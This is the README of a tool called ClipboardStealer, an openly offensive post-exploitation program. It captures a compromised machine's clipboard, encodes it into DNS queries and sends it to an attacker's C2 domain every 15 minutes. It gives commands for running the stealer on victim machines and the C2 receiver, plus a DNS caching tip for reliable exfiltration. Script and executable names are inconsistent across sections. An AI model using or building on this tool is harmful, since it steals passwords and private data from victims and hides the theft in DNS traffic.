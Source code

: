 # ClipboardStealer

Clipboard can contain everything from passwords to possible critical data. 
This tool is quite simple, light, and it does only one thing (so far) that is stealing whatever a compromised machine has on clipboard. it can be used post exploitation for Windows,macOS, or Linux machines
It periodically captures the contents of the clipboard, encodes the data into a DNS payload, and sends hidden in a DNS query -type A- to your C2 server. 

## Prerequisites

You can install ClipboardStealer python requirements via:

`pip3 install -r requirements.txt`

Or you can directly use clipboardHost.exe if you're targeting Windows environment

## How does it work

The code pastes whatever is in the clipboard, encodes it, splits it into small chunks and packs it in DNS record -type A- which will eventually land in your C2. Here's a breakdown of the flow:

- Clipboard contents are encoded to base64
- Encoded data is then broken into small chunks
- Each chunk is packed into a DNS query. Here's an example

![img_1.png](screenshots/img_1.png)

Now this query will be sent through any public DNS server (I am using `8.8.8.8` in client.py) which in turn will send request to your c2 DNS server `shahin.com` 

- On your C2, query will be split and qname (payload) will be decoded and re-assembled which will eventually save stolen clipboard data in a file 

![img_2.png](screenshots/img_2.png)

This happens every 15 minutes, it only sends data if the content is different from last time it was sent


## Usage

1. Install the required dependencies as mentioned in prerequisites

2. On your C2, run c2.py 
Don't forget to set file_path (where you want data to be saved) 

3. On compromised machine, run the program by executing the `client.py` script:
`python clipboard_sender.py 'example.com'`

Where: 
- example.com: Your C2 domain address

4. If you are using the .exe you can run it by running the following command:
`dnshost.exe example.com`

5. Now you're all set! it will continuously monitor the clipboard for changes and send the data in the clipboard to the C2 server every 15 minutes (Depending on the frequency the user updates his clipboard)

## Important Note

Set caching time on your DNS server (TTL) to less than the frequency of this tool (in our case 15 minutes) this will make sure that requests arrive fully to your domain server (C2) 